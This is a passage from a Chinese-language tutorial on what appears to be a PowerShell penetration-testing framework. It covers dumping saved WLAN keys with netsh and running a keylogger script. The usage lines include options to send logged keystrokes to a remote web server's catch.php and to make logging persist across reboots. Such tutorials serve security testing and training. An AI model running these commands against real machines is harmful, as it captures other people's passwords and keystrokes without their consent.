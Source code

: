 ![Get-PassHashes](./img/framework/Get-PassHashes.jpg)
#### Get-WLAN-Keys
在Administrator的权限下，可以利用这个脚本来dump出WLAN文件的密钥信息。实质上，这个脚本就是利用了netsh wlan show profile name="" key=clear来获取。
执行方式：

```powershell
PS > Get-WLAN-Keys
```
#### Keylogger
Keylogger可以保存下用户的键盘记录。
执行方式：

```powershell
PS > .\Keylogger.ps1 -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis  //-CheckURL参数会去检查所给出的网页之中是否包含 -MagicString后的字符串，如果存在的话就停止使用记录。
PS > .\Keylogger.ps1 -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis -exfil -ExfilOption WebServer -URL http://192.168.254.226/data/catch.php //将记录指定发送给一个可以记录Post请求的Web服务器
PS > .\Keylogger.ps1 -persist //实现持久化记录（重启后依然进行记录）
PS > .\Keylogger.ps1 //直接以这种方式来运行，键盘记录会保存在当前用户的Temp目录下key文件中
```
测试
首先执行 PS > .\Keylogger.ps1 